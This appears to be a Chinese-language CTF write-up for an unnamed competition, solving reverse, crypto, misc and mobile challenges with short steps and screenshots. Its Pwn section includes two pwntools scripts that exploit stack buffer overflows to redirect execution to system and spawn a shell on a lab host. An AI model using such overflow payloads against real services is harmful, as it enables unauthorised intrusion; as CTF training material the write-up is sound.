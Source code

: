 ```yaml
---
title: 记一次不知名比赛的WP
tags:
  - 比赛
  - CTF
permalink: /archives/10397/
createTime: 2023-06-24 01:28:52
---
```

# Reverse

## Reverse_签到

找到main函数，就看到了flag

![image-20230620090120146](https://img.crzliang.cn/img/image-20230620090120146.png)

# Crypto

## easily_Caesar

凯撒解码一把梭，key=24

![image-20230620094549028](https://img.crzliang.cn/img/image-20230620094549028.png)

# Misc

## medium_CTFvalues

16进制转文本得到unicode编码

![image-20230620094134558](https://img.crzliang.cn/img/image-20230620094134558.png)

unicode转ascii码得到base64字符串

![image-20230620094222386](https://img.crzliang.cn/img/image-20230620094222386.png)

![image-20230620094242228](https://img.crzliang.cn/img/image-20230620094242228.png)

base64解码得到一个字符串，然后ascii码转文本

![image-20230620094305264](https://img.crzliang.cn/img/image-20230620094305264.png)

## difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符

![image-20230620121849142](https://img.crzliang.cn/img/image-20230620121849142.png)

得到，把ip地址进行包裹提交

![image-20230620121956543](https://img.crzliang.cn/img/image-20230620121956543.png)

# Pwn

## easily_pwn_1

程序分析：64位程序，开启了NX保护

![image-20230620140607482](https://img.crzliang.cn/img/image-20230620140607482.png)

代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。

![image-20230620140450114](https://img.crzliang.cn/img/image-20230620140450114.png)

然后找是否存在后门函数

![屏幕截图 2023-06-20 140859](https://img.crzliang.cn/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20140859.png)

找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

![屏幕截图 2023-06-20 141330](https://img.crzliang.cn/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20141330.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

## medium_pwn_2

程序分析：32位程序，开启了NX保护

![image-20230620141634557](https://img.crzliang.cn/img/image-20230620141634557.png)

代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，

![image-20230620141720828](https://img.crzliang.cn/img/image-20230620141720828.png)

又看到了system函数,但是少了'/bin/sh'

![image-20230620141900964](https://img.crzliang.cn/img/image-20230620141900964.png)

找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

![image-20230620142144275](https://img.crzliang.cn/img/image-20230620142144275.png)

![image-20230620142020421](https://img.crzliang.cn/img/image-20230620142020421.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
